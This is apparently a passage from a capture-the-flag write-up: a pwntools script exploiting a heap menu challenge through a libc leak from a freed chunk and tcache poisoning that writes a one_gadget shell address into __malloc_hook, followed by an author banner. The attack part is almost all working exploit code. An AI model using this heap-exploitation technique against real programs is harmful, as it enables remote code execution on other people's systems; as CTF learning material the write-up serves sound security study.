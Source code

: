 ```python

def free(i):
    p.sendlineafter(b"Your choice >> ", b'2')
    p.sendlineafter(b"index: ", str(i).encode())


def show(i):
    p.sendlineafter(b"Your choice >> ", b'3')
    p.sendlineafter(b"index: ", str(i).encode())


def edit(i, content):
    p.sendlineafter(b"Your choice >> ", b'4')
    p.sendlineafter(b"index: ", str(i).encode())
    p.sendlineafter(b"content: ", content)


add(0, 0x410)
add(1, 0x20)
free(0)
show(0)
main_arena = u64(p.recv()[9:-1].ljust(8, b'\x00')) - 96
malloc_hook = main_arena - 0x10
libc_base = malloc_hook - libc.sym['__malloc_hook']
shell = libc_base + 0x10A2FC
free(1)
edit(1, p64(malloc_hook))
add(2, 0x20)
add(3, 0x20)
edit(3, p64(shell))
add(4, 0x10)
p.interactive()

# 做这一题时平台爆炸了
# 我拿到的flag：flag{TEST_FLAG}
```



---

## ⭐ Mevinagrise ⭐

> **Status**: Always Learning  
> **Motto**: Carpe Diem

*"Turning code into magic, one line at a time."*

---